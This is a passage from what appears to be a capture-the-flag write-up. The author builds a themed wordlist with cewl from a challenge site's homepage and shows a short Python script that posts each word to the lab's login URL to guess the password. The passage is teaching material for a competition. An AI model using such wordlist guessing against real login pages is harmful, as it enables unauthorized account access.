 ![](images/Pasted%20image%2020220618193417.png)

So, we would probably have to try to gain access through password. But, we were told that brute forcing wasn't the end-game. Back to the homepage, we do see a really "Atlantic" vibe sentence. Maybe one of them is the password, if not we could try using combinations of X-length.

Starting with length 1, which is just the word on it's own. We can use `cewl` to generate a wordlist for it.
![](images/Pasted%20image%2020220618193219.png)

Then, use the wordlist to test against the passwords. I have written a script below which helps which the checking of the passwords against the wordlist to see if any of them accesses it.

``` fishysite.py
import requests

wordlist = []

with open('testWordlist.txt') as f:
    content = f.read()

for i in content.split("\n"):
    data = {
        'password' : i.strip()
    }
    r = requests.post("http://lab-2.ctf.standcon.n0h4ts.com:42778/loginURL", data)
    # print(r.status_code)
```